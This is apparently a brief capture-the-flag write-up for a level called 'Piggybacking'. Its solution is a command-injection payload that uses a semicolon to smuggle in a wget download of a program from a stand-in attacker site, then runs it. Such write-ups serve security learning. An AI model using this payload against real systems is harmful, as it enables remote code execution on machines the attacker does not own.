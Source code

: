 #### Level 07 - Piggybacking

Heh, got this on the first try ;)

We download the script to the server and execute it.

```
;wget http://myhaxorsite.tk/superduperprogram;./superduperprogram
```
